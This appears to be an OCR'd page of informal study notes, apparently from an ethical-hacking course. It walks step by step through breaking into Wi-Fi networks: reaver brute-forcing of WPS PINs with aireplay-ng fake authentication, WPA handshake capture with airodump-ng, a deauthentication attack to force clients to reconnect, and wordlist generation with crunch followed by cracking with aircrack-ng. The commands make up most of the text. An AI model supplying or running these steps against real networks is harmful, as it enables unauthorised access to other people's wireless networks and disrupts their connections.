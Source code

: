 
▶️> wash --interface mon0 [shows all wps enabled network around us]

Now we need to associate with the access point so that the ap will not ignore our attempts.

▶️> aireplay-ng --fakeauth 30 -a 08:00:27:c7:e1:36 -h 04:00:14:t3:j9:12 mon0 [30 is the delay time bw the association attempts, so we will associate with the AP every 30 seconds, -a is target mac, -h is our adaptor mac]

▶️> reaver --bssid 08:00:27:c7:e1:36 --channel 2 --interface mon0 -vvv --no-associate [This will bruteforce the network and give us the key]
Do these all in seperate 3 terminals.




NOW IF WPS IS DISABLED OR CONFIGURED TO USE A PUSH BUTTON THE ABOUVE METHOD WILL NOT WORK, SO NOW WE NEED TO CRACK ACTUAL WPA/WPA2 ENCRYPTION.

Ass the packets send in the air only contain temporary infoe, they are not useful to us. The only useful to us is the handshake.



First of all run airodump-ng against all networks as we did first to get the mac.

Now run airodump-ng against our target networks and store them in a file as we did before:

▶️> airodump-ng --bssid 08:00:27:c7:e1:36 --channel 2 --write wpahandshake mon0

Now we need to wait for to capture the handshake [A handshake is captured when a new client device connect to the network, so we need to wait for that]

(For tricking users to connect to network, we can use deauthentication attack to discconnect a client and he will connect again 😉️) > aireplay-ng --deauth  4 -a 08:00:27:c7:e1:36 -c 04:00:46:c7:e1:89 mon0

WHEN THE CLENT CONNECTS HANDSHAKE WILL BE CAPTURED AND AIRODUMP-NG WILL SHOW THE HANDSHAKE HAS BEEN CAPTURED IN THE SCREEN


The handshake not contain data to recover the key, but it conatin data to check a password is valid or not. So we need to use a wordlist with the handshake and check the passwords are valid or not.


Use crunch to generate a wordlist:

▶️> crunch [min][max][charecters] -t [pattern] -o [filename]

  > crunch 6 8 123abc$ -o wordlist.txt -t a@@@@b (create combinations of 1,2,3,a,b,c and $  which start with a and b and combinations put between them)
  

Now we are ready to go with the handshake and wordlist:

▶️> aircrack-ng wpahandshake.cap -w wordlist.txt

(We can also use online checker where we can upload the handshake and they have huge wordlist)

-----------------------------------------


NOW THE GAINING ACCESS SECTION IS OVER...NEXT THE POST CONNECTION ATTACKS⏩️⏩️
----------------------------------------------------------------------------------------------------------->>
